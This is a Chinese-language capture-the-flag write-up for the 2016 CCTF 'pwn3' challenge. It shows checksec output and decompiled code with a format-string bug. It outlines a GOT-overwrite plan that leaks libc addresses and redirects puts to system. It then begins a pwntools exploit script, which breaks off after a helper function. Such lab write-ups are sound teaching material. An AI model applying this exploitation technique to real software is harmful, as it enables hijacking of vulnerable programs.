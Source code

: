 ```shell
➜  2016-CCTF-pwn3 git:(master) ✗ checksec pwn3 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出程序主要开启了NX保护。我们一般默认远程都是开启ASLR保护的。

### 分析程序

首先分析程序，可以发现程序似乎主要实现了一个需密码登录的ftp，具有get，put，dir三个基本功能。大概浏览一下每个功能的代码，发现在get功能中存在格式化字符串漏洞

```C
int get_file()
{
  char dest; // [sp+1Ch] [bp-FCh]@5
  char s1; // [sp+E4h] [bp-34h]@1
  char *i; // [sp+10Ch] [bp-Ch]@3

  printf("enter the file name you want to get:");
  __isoc99_scanf("%40s", &s1);
  if ( !strncmp(&s1, "flag", 4u) )
    puts("too young, too simple");
  for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
  {
    if ( !strcmp(i, &s1) )
    {
      strcpy(&dest, i + 0x28);
      return printf(&dest);
    }
  }
  return printf(&dest);
}
```

### 漏洞利用思路

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

- 绕过密码
- 确定格式化字符串参数偏移
- 利用put@got获取put函数地址，进而获取对应的libc.so的版本，进而获取对应system函数地址。
- 修改puts@got的内容为system的地址。
- 当程序再次执行puts函数的时候，其实执行的是system函数。

### 漏洞利用程序

如下

```python
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
pwn3 = ELF('./pwn3')
if args['REMOTE']:
    sh = remote('111', 111)
else:
    sh = process('./pwn3')


def get(name):
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    sh.sendline(name)
```